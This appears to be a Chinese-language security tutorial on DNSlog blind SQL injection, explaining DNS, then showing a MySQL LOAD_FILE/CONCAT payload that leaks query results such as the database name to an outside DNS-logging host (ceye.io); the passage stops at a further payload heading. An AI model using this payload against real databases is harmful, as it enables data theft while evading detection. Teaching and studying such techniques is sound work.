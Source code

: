 ```
# 3、DNSlog盲注



**1.DNS**

DNS(Domain Name System，域名系统)，因特网上作为域名和[IP地址](https://baike.so.com/doc/4252723-4455111.html)相互映射的一个[分布式数据库](https://baike.so.com/doc/6591740-6805519.html)，能够使用户更方便的访问[互联网](https://baike.so.com/doc/2011565-2128705.html)，而不用去记住能够被机器直接读取的IP数串。通过[主机](https://baike.so.com/doc/5331327-5566564.html)名，最终得到该主机名对应的IP地址的过程叫做域名解析(或主机名解析)。DNS协议运行在[UDP](https://baike.so.com/doc/5418284-5656447.html)协议之上，使用端口号53。在RFC文档中RFC 2181对DNS有规范说明，RFC 2136对DNS的动态更新进行说明，RFC 2308对DNS查询的反向缓存进行说明。



**2.Dnslog**

Dnslog就是存储在DNS Server上的域名信息，它记录着用户对域名`www.test.com`、`t00ls.com.`等的访问信息。



**DnsLog盲注**

对于SQL盲注，我们可以通过布尔或者时间盲注获取内容，但是整个过程效率低，需要发送很多的请求进行判断，容易触发安全设备的防护，Dnslog盲注可以减少发送的请求，直接回显数据实现注入 使用DnsLog盲注仅限于windos环境。



**原理图:**

![img](https://s2.loli.net/2022/11/25/M4nyYGNruzUdK9q.png)

 

如图，攻击者首先提交注入语句select load_file(concat('\\\\','攻击语句',.XXX.ceye.io\\abc))

在数据库中攻击语句被执行，由**`concat`**函数将执行结果与**`XXX.ceye.io\\abc`**拼接，构成一个新的域名，而mysql中的**`select load_file()`**可以发起请求，那么这一条带有数据库查询结果的域名就被提交到DNS服务器进行解析

此时，如果我们可以查看DNS服务器上的Dnslog就可以得到SQL注入结果。那么我们如何获得这条DNS查询记录呢？注意注入语句中的**`ceye.io`**，这其实是一个开放的Dnslog平台（具体用法在官网可见），在[http://ceye.io](http://ceye.io/)上我们可以获取到有关`ceye.io`的DNS查询信息。实际上在域名解析的过程中，是由顶级域名向下逐级解析的，我们构造的攻击语句也是如此，当它发现域名中存在`ceye.io`时，它会将这条域名信息转到相应的NS服务器上，而通过[http://ceye.io](http://ceye.io/)我们就可以查询到这条DNS解析记录。

 

**构造语法**

构造语句，利用load_file()函数发起请求，使用Dnslog接受请求，获取数据

```
SELECT LOAD_FILE(CONCAT('\\\',(select database(),'mysql.cmr1ua.ceye.io\\abc')))
```

通过SQL语句查询内容，作为请求的一部分发送至Dnslog

只要对这一部分语句进行构造，就能实现有回显的SQL注入

**payload:**

**获取数据库名**

```